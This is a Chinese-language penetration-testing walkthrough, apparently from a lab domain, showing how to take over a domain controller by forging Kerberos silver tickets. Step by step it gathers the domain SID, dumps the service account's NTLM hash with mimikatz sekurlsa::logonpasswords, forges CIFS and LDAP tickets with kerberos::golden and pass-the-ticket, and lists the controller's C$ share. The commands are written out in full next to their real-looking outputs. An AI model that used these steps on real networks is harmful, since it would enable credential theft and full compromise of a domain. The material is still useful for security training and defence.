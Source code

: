 #### 控制域控

##### 1、获取基本信息

```
shell whoami /user 获取域的sid值(去掉最后的‐500，500表示为administrator用户)
shell net config workstation 查看域
```

![image-20230202173041308](https://img.gyxnb.top/img/image-20230202173041308.png)

得到 域为：`hack.com SID:S-1-5-21-2716900768-72748719-3475352185`

##### 2、获取服务账号的ntlm hash值

```
mimikatz sekurlsa::logonpasswords
```

![image-20230202173120289](https://img.gyxnb.top/img/image-20230202173120289.png)

得到 hash `26a703eba507e848825615316bc880a1`

##### 3、伪造票据（CIFS共享服务）

```
mimikatz kerberos::tgt 查票
mimikatz kerberos::purge 清票
shell klist 查票
shell klist purge 清票

mimikatz kerberos::golden /domain:hack.com /sid:S‐1‐5‐21‐2716900768‐72748719‐3475352185 /target:dc.hack.com /service:cifs /rc4:26a703eba507e848825615316bc880a1 /user:abcd /ptt
```

![image-20230202173232588](https://img.gyxnb.top/img/image-20230202173232588.png)

##### 4、访问域控

```
shell dir \\dc.hack.com\c$
```

![image-20230202173258435](https://img.gyxnb.top/img/image-20230202173258435.png)

##### 5、伪造票据（LDAP共享服务）

```
mimikatz kerberos::tgt 查票
mimikatz kerberos::purge 清票
shell klist 查票
shell klist purge 清票

mimikatz kerberos::golden /domain:hack.com /sid:S‐1‐5‐21‐2716900768‐72748719‐3475352185
/target:dc.hack.com /service:LDAP /rc4:26a703eba507e848825615316bc880a1 /user:abcd /ptt
```
